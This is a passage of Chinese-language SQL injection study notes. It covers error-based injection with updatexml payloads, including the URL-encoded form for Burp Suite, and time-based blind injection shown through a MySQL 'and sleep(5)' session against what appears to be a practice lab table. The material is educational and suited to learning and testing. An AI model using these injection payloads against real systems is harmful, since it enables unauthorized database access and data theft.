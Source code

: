 此处id为数字，所以不用引号闭合



delete语句：

```
delete from user where id=xx
```



**updatexml**:

```
or updatexml(1,concat(0x7e,version()),1)
在bp中不能使用空格，使用 + 、%20 代表空格，浏览器将解码为空格
or+updatexml(1,concat(0x7e,version()),1)
```

**0x7e**这个十六进制数代表符号~，**~**这个符号在xpath语法中是不存在的，因此总能报错



**extractvalue**



<img src="https://s2.loli.net/2022/11/25/g5kj8eXvoQREIwC.png" alt="image-20221113145720404" style="zoom:33%;" />





# 2、时间盲注

在页面不回显时，使用时间盲注，根据响应时间判断相关注入





## 1、sleep语句

```sql
mysql> select * from member where id=1;
+----+----------+----------------------------------+-------+----------+---------+--------+
| id | username | pw                               | sex   | phonenum | address | email  |
+----+----------+----------------------------------+-------+----------+---------+--------+
|  1 | vince    | e10adc3949ba59abbe56e057f20f883e | admin | asdasd   | 四川    | 成都   |
+----+----------+----------------------------------+-------+----------+---------+--------+
1 row in set (0.00 sec)
mysql>
mysql> select * from member where id=1 and sleep(5);
Empty set (5.00 sec)

mysql>

```

sleep（5）	说明睡眠5秒
